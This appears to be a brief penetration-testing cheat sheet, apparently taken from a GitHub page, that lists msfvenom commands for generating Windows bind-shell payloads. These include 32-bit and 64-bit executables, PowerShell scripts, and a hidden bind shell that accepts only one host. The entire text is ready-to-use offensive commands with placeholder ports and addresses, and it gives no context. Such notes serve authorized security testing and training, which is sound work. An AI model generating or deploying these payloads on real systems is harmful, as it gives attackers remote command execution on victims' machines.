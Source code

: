 # Bind Shells

1. x86 (32-bit) Payloads

`$ msfvenom -p windows/shell_bind_tcp lport=<PORT> -f exe -o shell-x86.exe`

`$ msfvenom -p windows/shell_bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-shell-x86.exe`

`$ msfvenom -p cmd/windows/powershell_bind_tcp lport=<PORT> -o shell.ps1`

`$ msfvenom -p windows/powershell_bind_tcp lport=<PORT> -o shell.ps1`

2. x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell_bind_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x86-64.exe`

`$ msfvenom -p windows/x64/powershell_bind_tcp lport=<PORT> -o shell-x86-64.ps1`